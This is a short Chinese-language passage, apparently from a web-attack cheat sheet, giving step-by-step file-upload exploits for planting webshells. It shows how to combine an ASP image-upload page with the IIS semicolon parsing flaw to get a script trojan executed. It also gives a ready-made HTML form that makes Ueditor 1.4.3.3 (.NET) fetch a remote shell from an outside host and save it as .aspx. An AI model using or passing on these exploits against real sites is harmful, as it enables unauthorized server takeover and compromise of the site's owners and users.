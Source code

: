 	http://www.xxxx.com/news/admin/uploadPic.asp?language=&editImageNum=1&editRemNum=41513102009204012
	很明显。图片的地址是根据RemNum后面的编号生成的。
	攻击利用:
	配合IIS的解析漏洞，把RemNum后面的数据修改为1.asp;41513102009204012，变成下面这个地址
	http://www.xxxx.com/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=1.asp;41513102009204012
	然后在浏览器里打开，然后选择你的脚本木马上传，将会返回下面的地址
	uppic/1.asp;41513102009204012_2.gif
	直接打开是小马地址！
  #### Ueditor
	1.4.3.3 .net版本
	<form action="http://xx.com/ueditor/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
 	<p>shell addr: <input type="text" name="source[]" /></p>
 	<input type="submit" value="Submit" />
 	</form>
	加载一个远程图片shell
	表单在远程图片后加?.aspx
	如 http://1.1.1.1/uploads/1.gif?.aspx
